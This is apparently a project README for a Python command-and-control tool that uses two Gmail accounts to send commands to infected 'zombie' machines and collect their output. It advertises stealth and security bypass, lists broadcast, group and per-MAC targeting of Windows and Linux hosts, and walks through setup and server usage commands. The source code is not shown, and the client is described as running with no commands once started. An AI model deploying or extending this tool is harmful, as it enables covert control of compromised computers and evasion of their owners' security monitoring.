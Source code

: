 Sealth Gmail C2 2024 Ready

## Introduction
The project consists of a completely stealthy C&C (Command and Control) solution with a Client/Server architecture. 
The project is written in Python and also works after Google's policy updates.
Read my Article about the project on redhotcyber.com(You will need to translate it) :
https://www.redhotcyber.com/post/come-realizzare-un-command-control-utilizzando-gmail-in-16-steps-per-bypassare-qualsiasi-sistema-di-sicurezza/


## Table of Contents

1. [Introduction](#introduction)
2. [Server Features](#serverfeatures)
3. [Client Features](#clientfeatures)
4. [Requirements](#requirements)
5. [Installation](#installation)
6. [Configuration](#configuration)
7. [Usage](#usage)


## Server Features

- Send Commands to Zombies
- Sending Filter (Send only to Windows Machines)
- Sending Filter (Send only to Linux Machines)
- Broadcast Communication
- Multicast Communication (Group must be specified)
- Unicast Communication (Mac address must be specified)
- Get Responses from zombies

## Client Features
- Receive commands from C&C Servers
- Send commands feedback to C&C Servers

## Requirements

- you ought to install Python3
- you need to install modules listed in requirements.txt

## Installation

#Install Requirements
  Once you cloned repository you have to install requirements listed in requirements.txt
  You should use this command: pip install -r requirements.txt

## Configuration
#Create two gmail account
  In order to use the solution you need to create two gmail accounts. These two need to be personal accounts.

#Generate Password app
  Follow official google guide to generate a password-app for both the two gmail account you created before.
  Link: https://support.google.com/mail/answer/185833?hl=en

#Put password app into the code
  Copy the password app you created in the previous step and paste it in either the client or the server script.

## Usage
Server.Py:
Command Example 1 -> Send "dir" command to all windows zombie
python3 Server.py -c dir -o windows -t broadcast

Commad Example 2 -> send "ifconfig" command to all linux zombie
python3 Server.py -c ifconfig -o linux -t broadcast

Commad Example 3 -> send "ifconfig" command to linux zombie into the phoenix group
python3 Server.py -c ifconfig -o linux -t multicast -g phoenix_group

Commad Example 4 -> send "ifconfig" command to a defined linux machine
python3 Server.py -c ifconfig -o linux -t unicast -m <mac_address>

Commad Example 5 -> Get Responses from zombies
python3 Server.py -c update

Client.Py:
No commands required, it is plug and play, just start it.


